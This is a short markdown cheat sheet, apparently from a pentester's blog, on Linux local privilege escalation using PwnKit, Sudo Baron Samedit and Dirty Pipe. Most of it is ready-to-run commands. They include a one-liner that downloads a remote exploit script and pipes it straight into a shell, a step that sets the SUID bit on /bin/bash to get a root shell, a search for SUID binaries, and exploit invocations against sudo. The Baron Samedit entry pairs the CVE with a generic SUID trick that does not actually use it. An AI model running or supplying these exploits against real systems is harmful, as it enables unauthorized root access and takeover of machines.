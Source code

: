 ```yaml
---
title: Linux LPE
author: asphixie
date: 2023-03-10 20:55:00 +0800
categories: [Linux, Privilege Escalation]
pin: true
comments: false
---
```


## CVE-2021-4034 : Polkit privilege escalation exploit
Many PoCs on internet. This one can be used easily, downloading it on Internet : 
```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```
More information on : https://github.com/ly4k/PwnKit

## CVE-2021-3156 : Sudo Baron Samedit exploit
Based on <https://github.com/redhawkeye/sudo-exploit>
Adding SUID to bash if you can control a binary/script launched by root :
```bash
chmod +s /bin/bash
/bin/bash -p
```

## CVE-2022-0847 : Dirty Pipe
Based on <https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits>. Start with compile :
```bash
./compile.sh
```
Then launch the exploit :
```bash
./exploit-1
```
If doesn't works, try to find SUID binaries (sudo for example) :
```bash
find / -perm -4000 2>/dev/null
./exploit-2 /usr/bin/sudo
```
